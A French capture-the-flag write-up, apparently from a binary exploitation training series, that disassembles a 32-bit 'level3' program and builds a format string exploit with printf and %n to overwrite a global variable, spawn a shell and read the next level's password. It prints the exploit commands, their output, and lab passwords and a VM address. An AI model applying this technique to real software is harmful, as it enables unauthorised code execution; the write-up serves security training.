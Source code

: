 On se connecte sur le level3, ou se trouve un **binaire** <code>level3</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level3 -q
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
> disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
End of assembler dump.
```
Ici, il est impossible de faire un **buffer overflow** avec le fgets car il prend une taille plus petite que la taille max de notre variable:
> <pre><code>char str[520];
> fgets(str, 512, stdin);</code></pre>

Cependant on peut faire un **Format String Exploit** avec le **printf**

On commence par chercher l'**Offset**:
<pre><code> > python -c 'print "BBBB" + "|%08x" * 4' | ./level3
BBBB|00000200|b7fd1ac0|b7ff37d0|42424242
</code></pre>
> Ici le 08 nous permet de forcer l'affichage d'une adresse
>
> Et le 42424242 représente notre B en ASCII

On cherche par la suite l'adresse de **m**:
<pre><code>> objdump -t level3 | grep m
level3:     file format elf32-i386
...
0804988c g     O .bss   00000004              m
...</code></pre>

```gdb
> python -c 'print "\x8c\x98\x04\x08" + "%4$08n"' > /tmp/payload
> gdb -q level3
Reading symbols from /home/user/level3/level3...(no debugging symbols found)...done.
(gdb) > b *0x080484df
Breakpoint 1 at 0x80484df
(gdb) > run < /tmp/payload
Starting program: /home/user/level3/level3 < /tmp/payload


Breakpoint 1, 0x080484df in v ()
(gdb) > x/x 0x804988c
0x804988c <m>:  0x00000004
```
On sait que l'on cherche 64 (0x40), donc il nous manque 60

<pre><code>> (python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$08n"'; cat) | ./level3
                                                         512
Wait what?!
> cd ../level4 && cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
</code></pre>


For download :
<pre><code>scp -P4242 level3@192.168.1.78:level3 .</code></pre>
> Password : 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
